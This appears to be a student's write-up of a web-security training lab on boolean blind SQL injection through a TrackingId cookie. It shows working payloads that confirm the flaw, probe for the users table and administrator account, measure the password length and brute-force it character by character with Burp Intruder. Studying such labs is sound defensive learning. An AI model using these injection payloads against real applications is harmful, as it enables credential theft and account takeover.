 # Blind SQL injection with conditional responses
- application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this
```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
- When a request containing a TrackingId cookie is processed, the application determines whether this is a known user using a SQL query like this
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
- This query is vulnerable to SQL injection, but the results from the query are not returned to the user.
- the application does behave differently depending on whether the query returns any data. If it returns data (because a recognized TrackingId was submitted), then a "Welcome back" message is displayed within the page
- This behavior is enough to be able to exploit the blind SQL injection vulnerability and retrieve information by triggering different responses conditionally
- to see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn
```
…xyz' AND '1'='1
…xyz' AND '1'='2
```
- The first of these values will cause the query to return results, because the injected AND '1'='1 condition is true, and so the "Welcome back" message will be displayed
-  the second value will cause the query to not return any results, because the injected condition is false, and so the "Welcome back" message will not be displayed.
# Lab
- blind SQL injection vulnerability
- The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie
- The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows
- database contains a different table called users, with columns called username and password
# Goal
- enumrate the password of the administrator
- log in as the administrator user
# Solving the lab
- we open the cookie editor and we see 2 cookies one is session cookie and one is trackinf cookie the lab says the tracking cookie is vulnurable
- to determine which is vulnurable we need to fuzz every parameter that talks to the backend and see the responses
- when we open the lab we dont see a welcome message because its the first time using the cookie
- when we click ony any button we see the welcome back message
- now open burp to confirm that this is vulnurable, intercept request and send request to repeater
- to test for bling based SQLI is to force 2 use cases and see how the application response one false and one true
  - if two responses are different then its expoitable
## First confirm parameter is vulnurable to blind SQLI
- the Query we will assume it will look like this
```
SELECT tracking-id FROM tracking-table WHERE tracking-id = '73otf20UOtx4AXLk' 
```
- If this tracking id exists -> query returns value -> Welcome back message
- If the tracking id doesn't exist -> query returns nothing -> no Welcome back message
- select tracking-id from tracking-table where trackingId = '73otf20UOtx4AXLk' and 1=1--'
- we comment to not get syntax error
- we send the payload and url encode it 
-> TRUE -> Welcome back

- select tracking-id from tracking-table where trackingId = '73otf20UOtx4AXLk' and 1=0--'
-> FALSE -> no Welcome back
- since we dont get a welcome back message when query is false so its vulnurable to blind SQLI
## Second Confirm DB has user table 
- we build query like this
```
select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select 'x' from users LIMIT 1)='x'--'
```
- this will check if user table exists and select x value and copare it with x if user table exist we will get a welcome output
- and we get a welcome output
## Third Confirm user administartor exists
- we build quiry like this
```
select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator')='administrator'--'
```
- we find a welcome output so user administartor exists
## Enumerate the password of the administrator user
- we first need to determine its length
- we can do this by this query and change the value until we got now welcome in the output
```
select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator' and LENGTH(password)>19)='administrator'--'
```
- at 20 we got welcome after that we got no ouput
- now to the actual password we will use this query
- we use burp intruder
- we first put payload to iterate or brute force using burp
```
select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select substring(password,1,1) from users where username='administrator')='a'--'
```
- we use cluster bomb on burp and do the attack the position to do the attack in are the charachters we want to check and the first argument in password substring
- and we got the password
```
7com14kx0nhux3pis6p5
```
